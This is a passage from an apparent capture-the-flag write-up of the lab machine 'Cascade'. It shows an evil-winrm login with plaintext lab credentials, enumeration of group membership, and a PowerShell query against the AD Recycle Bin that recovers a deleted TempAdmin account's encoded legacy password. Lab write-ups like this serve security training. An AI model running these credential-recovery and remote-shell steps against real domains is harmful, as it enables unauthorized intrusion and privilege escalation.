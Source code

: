 Seems like the password is correct! Let us enumerate the system with the arksvc user.

### Enumeration as arksvc

Now that we have a set of working credentials, let us further enumerate the system.

```powershell
root@darkness:~# evil-winrm -i 10.10.10.182 -u arksvc -p w3lc0meFr31nd

Evil-WinRM shell v2.3

Info: Establishing connection to remote endpoint

*Evil-WinRM* PS C:\Users\arksvc\Documents>
```

Let us check out the privileges and groups of the user.

```powershell
*Evil-WinRM* PS C:\Users\arksvc\Documents> whoami /groups

GROUP INFORMATION
-----------------

Group Name                                  Type            
=========================================== ================
Everyone                                    Well-known group
BUILTIN\Users                               Alias           
BUILTIN\Pre-Windows 2000 Compatible Access  Alias           
NT AUTHORITY\NETWORK                        Well-known group
NT AUTHORITY\Authenticated Users            Well-known group
NT AUTHORITY\This Organization              Well-known group
CASCADE\Data Share                          Alias           
CASCADE\IT                                  Alias           
CASCADE\AD Recycle Bin                      Alias           
CASCADE\Remote Management Users             Alias           
NT AUTHORITY\NTLM Authentication            Well-known group
Mandatory Label\Medium Plus Mandatory Level Label
```

Looking at our groups, we find that we are part of the `CASCADE\AD Recycle Bin` group.

As we are part of this group, we can recover the deleted `TempAdmin` account and possibly get his password this way.

### Recovering the admin account from AD Recycle bin

Using a simple query, we can quickly view the deleted user.

```powershell
*Evil-WinRM* PS C:\Users\arksvc\Documents> Get-ADObject -filter 'isdeleted -eq $true -and name -ne "Deleted Objects" -and samaccountname -eq "TempAdmin"' -includeDeletedObjects -property *
[...]
cascadeLegacyPwd : YmFDVDNyMWFOMDBkbGVz
CN               : TempAdmin
[...]
Created                         : 1/27/2020 3:23:08 AM
createTimeStamp                 : 1/27/2020 3:23:08 AM
Deleted                         : True
Description                     :
DisplayName                     : TempAdmin
DistinguishedName               : CN=TempAdmin\0ADEL:f0cc344d-31e0-4866-bceb-a842791ca059,CN=Deleted Objects,DC=cascade,DC=local
[...]
```

